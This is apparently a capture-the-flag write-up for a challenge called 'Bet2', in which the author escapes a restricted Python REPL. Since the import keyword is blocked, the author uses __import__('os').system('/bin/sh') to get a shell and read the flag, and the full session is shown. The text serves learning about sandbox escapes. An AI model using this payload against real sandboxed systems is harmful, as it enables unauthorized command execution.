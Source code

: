 
# Bet2
Upon connection to the server and you will be presented with some sort of REPL program.
After fiddling with it a little bit and entering some builtin functions, it looks like a Python REPL.

    root@beer:~/crypto# nc ctf.safebreach.com 31338
	>>> print
	<built-in function print>
	>>> eval
	<built-in function eval>
	>>> getattr
	<built-in function getattr>

So the most natural thing to do here is use `system` to get a shell, right? Well, not so fast:

    >>> import os; system('/bin/sh')
	invalid syntax (<string>, line 1)
	>>> eval('import os; os.system("/bin/sh")')
	invalid syntax (<string>, line 1)
	>>> import subprocess
	invalid syntax (<string>, line 1)

The REPL won't let me import modules using the `import` keyword at all, and I need a binary execution function to get to a shell.
Python sandbox escape has been discussed many times before. There is more than one way to import a module, or call builtin functions.
In this case, what I did was use the `__import__` function to import the `os` module and execute `system`.

    >>> __import__
	<built-in function __import__>
	>>> __import__('os').system('/bin/sh')
	/bin/sh: can't access tty; job control turned off
	/pwn $ cat flag
	cat flag
	CTF{9a4f1813c1874de8aaz3e8407d93ca48}

I recommend reading [this DigitalWhisper (Hebrew) article](https://www.digitalwhisper.co.il/files/Zines/0x5A/DW90-5-PySandbox.pdf) on Python Sandbox escaping if you want to learn more on the subject.
